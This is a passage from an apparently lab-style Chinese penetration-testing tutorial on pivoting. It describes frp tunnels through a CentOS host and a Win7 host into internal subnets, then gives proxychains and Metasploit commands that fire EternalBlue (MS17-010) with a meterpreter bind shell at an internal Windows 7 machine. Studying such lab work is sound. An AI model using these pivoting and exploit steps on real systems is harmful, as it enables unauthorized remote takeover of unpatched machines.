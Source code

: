 解释：

1、原本`Centos:172.31.50.224`就可被外网访问，

2、`Centos`然后安装`frpc客户端`，实现跨网段访问`Centos`的另一个网段：`192.168.111.142`(同时可以访问同一网段下的`Win7-1:192.168.111.131`)

3、`Win7-1`该机器上安装`frpc客户端`（服务端在`Centos`上），实现跨网段访问`Win7-1`的另一个网段：`192.168.201.130`(同时可以访问同一网段下的`Win7-2:192.168.201.131`)



同时可以访问Win7-2:192.168.201.131

![image-20211015115200205](/assets/image-20211015115200205.png)



基于代理开启msfdb

```
┌──(kali㉿kali)-[~]
└─$ sudo proxychains msfdb run 
```

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp  #正向shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.201.131
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```
